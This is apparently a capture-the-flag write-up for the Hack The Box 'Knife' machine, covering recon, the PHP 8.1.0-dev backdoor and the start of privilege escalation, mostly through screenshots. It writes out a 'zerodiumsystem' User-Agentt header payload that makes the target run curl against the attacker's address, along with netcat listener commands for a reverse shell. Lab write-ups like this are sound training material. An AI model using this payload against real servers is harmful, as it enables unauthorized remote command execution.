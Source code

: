 ![knife](https://user-images.githubusercontent.com/66635295/183265217-40705451-47ef-47ea-ab35-e26165b77ea1.png)

**RECON**
---
**Medical Website** 

![recon](https://user-images.githubusercontent.com/66635295/185769120-78ab97a6-f512-4208-880a-3c05f2264f0d.png)

**Nmap Scan**

<pre>nmap -sC -sV 10.10.10.242</pre>

![nmap](https://user-images.githubusercontent.com/66635295/185769407-f6fd4c5b-cc7c-4ab8-b531-6e88f3b1e6bd.png)

**PHP Website**

![php site](https://user-images.githubusercontent.com/66635295/185770395-1da8cbb3-7ce3-4c36-8c2e-8103db704f6c.png)

Inspecting Network Properties reveals PHP 8.1.0

![php8](https://user-images.githubusercontent.com/66635295/185770435-9126406a-dd13-418f-87da-95be53733ccf.png)

**PHP Exploit**
![exploit](https://user-images.githubusercontent.com/66635295/185770641-fa1b43d7-afe9-4069-851a-d3b633694832.png)

![exploit info](https://user-images.githubusercontent.com/66635295/185770464-7a2eba76-ab51-4165-b925-18a0448de67f.png)

**ENUMERATION**
---
**Netcat listner**

<pre>nc -lvnp 80</pre>

![nc](https://user-images.githubusercontent.com/66635295/185774526-17ee8bd6-3db1-44cd-961f-4246e53ce9d5.png)

**Burp Repeater**

<pre> User-Agentt: zerodiumsystem('usr/bin/curl 10.10.14.4'); </pre>

![zerodium](https://user-images.githubusercontent.com/66635295/185774591-d979f520-60a7-43d4-b42d-3e1b4f9eea04.png)

**Curl Success**

![curld](https://user-images.githubusercontent.com/66635295/185774707-6bb92e13-f96f-4dce-9302-b157f3ea6507.png)


**PRIVILEGE ESCALATION**
---

**Open second listner**

<pre>nc -lvnp 4444</pre>

![n4444](https://user-images.githubusercontent.com/66635295/185774762-588516b5-2335-43dc-83d6-177614124790.png)

